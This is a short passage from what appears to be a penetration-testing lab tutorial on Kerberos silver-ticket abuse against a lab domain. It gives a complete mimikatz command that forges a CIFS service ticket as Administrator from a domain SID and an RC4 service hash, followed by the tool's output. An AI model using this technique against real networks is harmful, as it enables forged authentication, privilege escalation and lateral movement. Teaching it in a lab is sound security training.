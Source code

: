 
![Tickts](/Ticket-Abuse/Silver-Ticket/images/tickets.png) 




Now that we have a ticket to **access the SQL01 filesystem**, we can use the **dir** utility. 


## Displaying Directory Information with "dir". 

![Remote Control](/Ticket-Abuse/Silver-Tickets/images/dir.png) 


We can also create a **Sacrificial Process**. We will discuss about sacrifical processes more in the Pass-the-Ticket section to execute PSExec using the CIFS service. Let's **create a ticket and save it in sql01.kirbi**: 


## Create a Silver Ticket


	C:\Tools> .\mimikatz.exe "kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-1870146311-1183348186-593267556 /rc4:027c6604526b7b16a22e320b76e54a5b /service:cifs /ticket:sql01.kirbi" exit
		
	User      : Administrator
	Domain    : inlanefreight.local (INLANEFREIGHT)
	SID       : S-1-5-21-1870146311-1183348186-593267556
	User Id   : 500
	Groups Id : *513 512 520 518 519
	ServiceKey: 027c6604526b7b16a22e320b76e54a5b - rc4_hmac_nt
	Service   : cifs
	Lifetime  : 1/15/2024 9:01:04 AM ; 1/12/2034 9:01:04 AM ; 1/12/2034 9:01:04 AM
	-> Ticket : sql01.kirbi
